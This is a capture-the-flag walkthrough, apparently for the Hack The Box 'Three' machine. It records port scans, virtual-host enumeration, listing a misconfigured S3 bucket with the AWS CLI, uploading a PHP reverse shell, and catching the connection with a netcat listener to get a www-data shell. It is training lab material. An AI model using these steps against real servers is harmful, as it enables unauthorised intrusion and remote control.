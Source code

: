 # Three (Starting Point, Tier 1 Machine)

## Victim IP

`export target="10.129.118.95"`

## Attacker IP

`export attacker="10.10.14.94"`

## Open ports

```
 sudo nmap -Pn -p- -sS -T4 ${target}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:26 EST
Nmap scan report for 10.129.118.95
Host is up (0.020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.50 seconds
```

## Enumerate open ports

```
nmap -Pn -p22,80 -sC -sV ${target} -oA ${target}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:28 EST
Nmap scan report for 10.129.118.95
Host is up (0.0044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.89 seconds
```

## Task 1

`See nmap output`

## Task 2

Visit the site in the web browser and navigate to the contact page

## Task 3

Update the /etc/hosts file to point the IP address of the victim box to the domain name listed in the contact page

## Task 4

sudomain enumeration using wfuzz:  

```
wfuzz -w /tmp/dns-2characters.txt -H "Host: FUZZ.thetoppers.htb" --hc 200 -t 150 -v --follow 10.129.118.95
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.118.95/
Total requests: 952

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload                                                       
====================================================================================================================================================

000000208:   0.078s       404        0 L        2 W      21 Ch       hypercorn-h11                                                     "s3"                                                          

Total time: 7.885646
Processed Requests: 952
Filtered Requests: 951
Requests/sec.: 120.7256
```

subdomain enumeration using gobuster:  

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb append-domain                                                                             2 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://thetoppers.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/20 02:26:55 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb (Status: 404) [Size: 21]
Found: gc._msdcs.thetoppers.htb (Status: 400) [Size: 306]
                                                         
===============================================================
2022/11/20 02:26:58 Finished
===============================================================
```

Add newly discovered subdomain to /etc/hosts    


## Task 5

Running dirb against the newly discovered subdomain found 3 endpoints:

```
dirb http://s3.thetoppers.htb             

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Nov 20 02:33:39 2022
URL_BASE: http://s3.thetoppers.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://s3.thetoppers.htb/ ----
+ http://s3.thetoppers.htb/graph (CODE:405|SIZE:178)                                                                                                                                                          
+ http://s3.thetoppers.htb/health (CODE:200|SIZE:888)                                                                                                                                                         
+ http://s3.thetoppers.htb/server-status (CODE:403|SIZE:282)                                                                                                                                                  
                                                                                                                                                                                                              
-----------------
END_TIME: Sun Nov 20 02:35:33 2022
DOWNLOADED: 4612 - FOUND: 3

```
Visiting the health endpoint gives us the flag for task 5  

## Task 6

The flag for this one is `awscli`

## Task 7

RTFM at [AWS Command Line Interface]("https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html")

We can enter arbitriry data here
```
aws configure                                       
AWS Access Key ID [None]: responder
AWS Secret Access Key [None]: responder
Default region name [None]: responder
Default output format [json]: json
```

## Task 8

RTFM at [AWS Command Line Interface]("https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html")

```
aws --endpoint=http://s3.thetoppers.htb s3 ls                                                                                                                                                        255 ⨯
2022-11-20 20:59:02 thetoppers.htb
```

## Task 9

Referring to WhatRuns firefox extension, we know that site is running `PHP 7.4.30`.  Also looking at the contents of the s3 bucket we can see a file extension of php:  
```
aws --endpoint=http://s3.thetoppers.htb/ s3 ls s3://thetoppers.htb
                           PRE images/
2022-11-20 20:59:02          0 .htaccess
2022-11-20 20:59:02      11952 index.php

```

## Submit Flag

Either write your own reverse web shell or search online for a reverse shell template online.  I used the php reverse shell from pentest monkey, [php-reverse-shell]("https://github.com/pentestmonkey/php-reverse-shell")  

Upload the file with the following command: 

```
aws --endpoint=http://s3.thetoppers.htb/ s3 cp shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php  
```

Set up your netcat listener, browse to the shell (http://thetoppers.htb/shell.php), and catch the connection:  

```
nc -nvlp 4444                                                                                                                                                                                          1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.94] from (UNKNOWN) [10.129.183.243] 39748
Linux three 4.15.0-189-generic #200-Ubuntu SMP Wed Jun 22 19:53:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 02:31:34 up 41 min,  0 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Use the following command to find the flag: `find . -name *flag* 2> /dev/null`
